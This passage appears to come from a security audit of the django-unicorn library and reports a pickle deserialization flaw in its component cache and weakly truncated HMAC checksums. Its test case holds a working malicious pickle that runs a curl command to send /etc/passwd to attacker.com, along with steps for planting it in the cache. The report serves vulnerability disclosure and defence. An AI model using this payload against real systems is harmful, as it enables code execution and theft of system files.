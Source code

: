### Security Test Case
The following test demonstrates the vulnerability, but requires access to the cache:

1. Create a malicious pickle payload:
```python
import pickle
import os

class EvilPickle:
    def __reduce__(self):
        cmd = ('curl -d "data=$(cat /etc/passwd)" https://attacker.com/exfil')
        return os.system, (cmd,)

# Create the malicious pickle data
evil_data = pickle.dumps(EvilPickle())

# This would need to be inserted into the cache under a component's cache key
# For example:
# from django.core.cache import caches
# cache = caches['default']
# cache.set('unicorn:component:target_component_id', evil_data)
```

2. When the application loads the component from cache, the malicious code would execute
3. To verify this vulnerability in a controlled environment:
   - Set up a test Django project using Unicorn with caching enabled
   - Configure it to use a cache backend that you can access (like file-based cache)
   - Create a component that gets cached
   - Manually replace the cached data with your malicious pickle
   - Trigger a request that loads the component from cache
   - Observe the code execution

## 6. Weak Checksum Validation for Component Data Integrity

### Vulnerability Name
Insufficient Cryptographic Strength in Component Checksums

### Description
Django-unicorn uses checksums to ensure the integrity of component data between the server and client. However, in `django_unicorn/utils.py`, these checksums are truncated to only 8 characters:

```python
checksum = hmac.new(
    str.encode(settings.SECRET_KEY),
    data_bytes,
    digestmod="sha256",
).hexdigest()
checksum = shortuuid.uuid(checksum)[:8]  # Truncated to only 8 characters
```

While HMAC-SHA256 is a strong algorithm, truncating the result to only 8 characters significantly reduces the security. This creates a much smaller space of possible checksums, making it feasible for an attacker to brute force or find collisions. The test files confirm this implementation, with several tests in `test_hash.py` and `test_message.py` validating this checksum behavior.

